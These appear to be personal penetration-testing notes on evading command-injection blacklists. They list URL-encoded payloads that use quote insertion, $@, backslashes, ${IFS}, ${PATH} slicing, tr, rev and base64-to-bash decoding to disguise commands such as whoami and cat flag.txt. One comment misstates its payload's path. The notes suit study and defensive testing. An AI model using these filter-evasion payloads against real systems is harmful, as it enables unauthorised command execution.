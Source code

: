 Tags: [[Burpsuite]] [[Command Injection]] [[Cybersecurity]] [[Penetration Testing]] [[Filter Evasion]] [[Blacklisted Commands]] #blacklisted_commands

One easy obfuscation technique is inserting a `'` in between command letters. The command will run the same as if it was spelled out without the `'` .
```Bash
w'h'o'am'i
```

You cannot mix `"` and `'` it has to be one or the other. We can also use `$@` or `\`

```bash
who$@ami
w\ho\am\i
```

### Example Command
```Bash
%0ac'a't${IFS}${PATH:0:1}home${PATH:0:1}1nj3c70r${PATH:0:1}flag.txt
# This would equate to /n cat /hom/1nj3c7or/flag.txt
```

## Advanced Command Obfuscation

Transform a command from uppercase into lowercase. We can use this command as a advanced way of obfuscating a command like `whoami`

```bash
%0a$(tr%09"[A-Z]"%09"[a-z]"<<<"WHOAMI") 
```

## Reversing Commands

```bash
 $(rev<<<'imaohw')
```

```bash
# Command in linux terminal
echo 'whoami' | rev
# Here we are piping whoami into the rev command
```

## Encoding Commands

```bash
echo -n 'ls /home' | base64
bHMgL2hvbWU=

# Now we can copy the base64 and use it in a command. 

%0abash<<<$(base64%09-d<<<bHMgL2hvbWU=)
# This would be evaluated and the command would be ls /home The command insie the brackett will will decode the base64 and send it to the bashcommand. 

```
